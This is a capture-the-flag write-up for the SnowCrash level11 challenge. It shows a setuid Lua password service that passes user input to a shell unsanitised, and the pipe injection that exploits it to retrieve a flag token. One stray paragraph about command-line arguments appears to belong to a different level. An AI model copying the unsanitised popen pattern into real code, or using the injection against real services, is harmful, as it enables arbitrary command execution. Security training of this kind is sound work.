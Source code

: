 # level11

- We log as 'level11'

- A single file is located inside the home directory of level11:
>`-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua`

- The executable file has setuid & setgid bits permissions

- We `cat` this LUA script:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

- We can se that it is a small service running on port 5151 that ask for a password, hash it and compare the hash with a hard coded hash

- We try decrypting the hash `f05d1d066fb246efe0c6f7d095f909a7a0cf34a0`

- After decryption in a SHA1 decode we have "NotSoEasy" so maybe this is not the password we look for



- Upon execution with `token` as first argument and `test` as second argument, the executable prints:
>`You don't have access to token`

- We can see that a shell command is executed by the script:
>`prog = io.popen("echo "..pass.." | sha1sum", "r")`

- This line is vulnerable to arbitrary code execution because the arguments of the script are not protected or parsed.

- Lets inject the code into the service:
>`nc 127.0.0.1 5151`
>`Password: | getflag >/tmp/pwn11`
>`Erf nope..`

- Let's `cat` the output file:
>`level11@SnowCrash:~$ cat /tmp/pwn11`
>`Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s`

- We get the flag: `fa6v5ateaw21peobuub8ipe6s`